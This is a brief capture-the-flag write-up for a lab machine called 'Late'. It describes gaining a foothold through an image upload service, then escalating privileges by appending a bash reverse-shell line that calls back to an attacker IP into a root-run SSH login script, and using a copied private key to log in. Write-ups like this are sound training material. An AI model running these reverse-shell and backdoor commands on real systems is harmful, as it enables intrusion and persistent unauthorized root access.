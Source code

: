 ## Initial Exploit - 10.129.105.201

The website hosted on port 80 points to the domain `http://images.late.htb/`. Add "images.late.htb" to hosts file at `/etc/hosts`:  
```
127.0.0.1       localhost
127.0.1.1       kali  
10.129.105.201  images.late.htb late.htb
```  

Navigate to the image upload utility at `http://images.late.htb/`. Send a reverse shell in .png format:
![](images/payload.png)

Setup a listener:
`sudo nc -lvnp 80`

## Privledge Escalation - 10.129.105.201

Add reverse shell the script that root runs when a user logs into SSH:  
`echo "bash -i >& /dev/tcp/10.10.16.8/80 0>&1" >> /usr/local/sbin/ssh-alert.sh`

Copy private key from `/home/svc_acc/.ssh/id_rsa`.

Log into SSH:  
`ssh svc_acc@10.129.105.201 -i id_rsa`



## Proof - 10.129.105.201

### User:
![](images/user.png)

### Root:
![](images/root.png)